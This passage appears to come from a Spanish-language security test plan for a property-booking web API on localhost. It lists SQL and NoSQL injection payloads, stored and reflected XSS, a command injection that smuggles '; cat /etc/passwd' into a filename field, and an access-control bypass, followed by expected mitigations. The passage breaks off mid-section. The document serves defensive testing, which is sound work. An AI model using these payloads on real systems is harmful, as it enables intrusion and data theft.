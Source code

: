 **Objetivo**: Ejecutar código malicioso

**SQL Injection**:

```bash
# Test basic SQLi
sqlmap -u "http://localhost:3001/api/properties?id=1" --batch

# Time-based blind SQLi
curl "http://localhost:3001/api/users?email=test@test.com' OR SLEEP(5)--"
```

**NoSQL Injection** (si se usa MongoDB):

```bash
curl -X POST http://localhost:3001/api/auth/login \
  -d '{"email":{"$ne":null},"password":{"$ne":null}}'
```

**XSS (Cross-Site Scripting)**:

```bash
# Stored XSS en property name
curl -X POST http://localhost:3001/api/properties \
  -d '{"name":"<script>alert(document.cookie)</script>"}'

# Reflected XSS
curl "http://localhost:3001/api/search?q=<script>alert(1)</script>"
```

**Command Injection**:

```bash
# Si hay endpoint que ejecuta comandos
curl -X POST http://localhost:3001/api/reports \
  -d '{"filename":"test.pdf; cat /etc/passwd"}'
```

**Mitigaciones Esperadas**:

- ✅ Prisma ORM (previene SQL injection)
- ✅ Input sanitization con DOMPurify
- ✅ Validación con Zod schemas
- ✅ CSP headers (previene XSS)
- ❌ No se ejecutan comandos del sistema

### Escenario 3: Broken Access Control

**Objetivo**: Acceder a recursos sin autorización

**Horizontal Privilege Escalation**:

```bash
# Usuario A accede a datos de Usuario B
curl -H "Authorization: Bearer USER_A_TOKEN" \
  http://localhost:3001/api/bookings/user-b-booking-id
```

**Vertical Privilege Escalation**:
